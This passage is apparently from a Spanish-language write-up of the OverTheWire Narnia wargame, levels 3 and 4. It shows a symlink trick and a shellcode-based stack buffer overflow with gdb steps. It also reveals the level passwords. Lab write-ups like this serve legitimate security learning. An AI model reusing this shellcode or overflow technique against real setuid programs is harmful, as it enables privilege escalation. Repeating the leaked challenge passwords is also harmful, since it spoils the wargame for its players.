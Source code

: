 ~~~
ln -s /etc/narnia_pass/narnia4 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
touch /tmp/ax
chmod 777 /tmp/ax
./narnia3 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
cat /tmp/ax

thaenohtai
~~~

## Narnia4
ssh narnia4@narnia.labs.overthewire.org -p 2226
~~~
cd /narnia/
./narnia4
~~~
codigo feunte
~~~
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
~~~
la variable del búfer tiene 256 bytes y no hay verificación de límites

~~~
gdb narnia4
set disassembly-flavor intel
run $(python -c 'print 264 * "A" + 4 * "B"')

break *main+121
run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')
x/100x $esp+600
run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
continue

./narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
whoami
cat /etc/narnia_pass/narnia5

faimahchiy
~~~
